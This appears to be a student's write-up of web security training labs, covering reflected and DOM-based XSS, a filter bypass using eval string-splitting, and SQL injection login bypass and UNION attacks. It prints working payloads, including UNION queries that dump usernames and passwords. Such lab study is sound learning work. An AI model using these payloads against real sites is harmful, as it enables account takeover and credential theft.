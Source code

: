 # XSS
## REFLECTED XSS
In this the lab contains a simple reflected xss vulnerability, where we need to use alert () function to solve it.
I called the alert function with the payload `<script>alert(0)</script>`
## DOM BASED XSS
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
To solve this lab, perform a cross-site scripting attack that calls the alert function.
I called the alert function with the payload `"><svg onload=alert()>`
## THE CLIENT SIDE
In this we need to use the alert function to pop up a dialogue box, but if we try it in the traditional way, it says sus link detected and eliminated, after digging a little bit into it I found that thescript filtered it out with the line
`if(link.includes("alert")){
                document.write("sus link detected.....and eliminated");
                document.body.innerHTML += "<br><a href='javascript:location.reload()'>Reload</a>";
            }`
which filters the link if it contains the word alert in it. And neither aLeRt, or changing any letters to capital would work since all letters are converted into lowercase and this turn the aLeRt into alert which gets filtered by the system.
So I used eval function and broke the function into two strings "aler" + "t()" which looks like eval("aler"+"t()"). Now this can bypass the filter since it is intercepted as aler + t() which is not alert() directly.
Here we are using eval() because with the <script> tag it cant understand or merge the two sperate strings.
# SQL Injection
## LAB LOGIN BYPASS
This is a simple login webpage. I tried to enter the username as `administrator'--+` because generally the usernames are sent to the backend by enclosing them in a string and the password is also in the same line so we can comment it out by passing `--+`. And henceforth the system only checks for the usernae and gives us the acess to the account.
## UNION ATTACK
In this we try to breach the usernames and passwords from the backend database. first we check the number of columns containg strings by the payload `' union select 'username','password'--+`. This should print the texts username and password indicating there are 2 columns which columns contain text data. So we make our final payload as `' union select username,password from users --+` which selects both the columns.
## SQLI LABS
### LAB 1
`?id=-1’ union select 1,group_concat(username),group_concat(password) from users --+` to break the code
### LAB 2
This accept only integers so it cannot take strings as input
`?id=-1%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+` 
### LAB 3
Same as the first one with the addition of a bracket 
`?id=-1%27)union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+`
### LAB 4
This is a double quote query
`?id=-1") union select 1,group_concat(username),group_concat(password) from users--+` breaks the code
 

